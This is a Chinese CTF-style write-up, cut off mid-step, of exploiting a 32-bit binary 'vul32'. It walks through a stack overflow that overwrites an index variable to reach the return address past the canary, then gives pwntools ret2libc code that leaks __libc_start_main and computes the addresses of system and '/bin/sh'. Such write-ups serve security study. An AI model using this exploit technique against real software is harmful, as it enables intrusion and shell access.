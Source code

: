 # vul32 攻击记录

## 32-bit 机器

1 字节（byte）= 8 bit
16 进制数（0xa）= 4 bit
16 进制数（0xaa）= 8 bit

char = 1 byte
int = 4 byte
32 位内存空间 = 4 byte

## 分析

首先看下`vul32`的安全保护：

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

## 返回地址覆盖

main 函数栈：

```
$ebp: 0xffffd108
$esp: 0xffffd104
```

dovuln 函数栈：

```
$ebp: 0xffffd0f8
$esp: 0xffffd0b0
```

dovuln()反汇编结果如下，存在漏洞的函数是 read()。read()每次向 buf 中读取 1 字节，之后填入 v3 对应的位置，则我们利用 v3 进行栈溢出。
v3 与 ebp 相距 0x43，则 v3[43]对应的栈处为 ebp，高于 ebp 4 字节处即为返回地址。即我们应该将跳转地址写入 v3[47]，参考 dovuln()代码可知，我们将 v4 的值覆盖为 0x47，ASCII 对应为'G'。

```
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```

注意到 v4 低于 ebp 0x10，v3 低于 ebp 0x43，则 v4 高于 v3[0] 0x33。则我们首先填写 0x33 个'a'，随后覆盖 v4 为'G'。首先构造一个输入，观察返回地址是否被正确覆盖：

## system, /bin/sh 地址获取

利用 ROPgadget 搜索发现，libc 库中有`/bin/sh/`可用，因此我们只能调`libc`中的函数来获取 shell。

```
$ ROPgadget --binary libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0015912b : /bin/sh
```

由于我们已经知道了 vul32 使用的`libc`版本，也就是我们已经知道了函数的偏移量。因此我们只需要求基地址，这里我们泄露`__libc_start_main`的地址，并利用`write()`输出：

```
libc = ELF('./libc.so.6')
vul32 = ELF('./vul32')

write_plt = vul32.plt['write']
libc_start_main_got = vul32.got['__libc_start_main']
main = vul32.symbols['main']

payload = flat(['A' * 0x33, 'G', write_plt, main, p32(1), libc_start_main_got, p32(4)])
sh.sendlineafter('Can you find it !?', payload)
```

获取`__libc_start_main`的地址，计算基地址，并获取`system`和`/bin/sh`的真实地址：

```
libc_start_main_addr = u32(sh.recv()[0:4])
libcbase = libc_start_main_addr - libc.sym['__libc_start_main']

system_addr = libcbase + libc.sym['system']
binsh_addr = libcbase + libc.sym['str_bin_sh']
```

重新获取
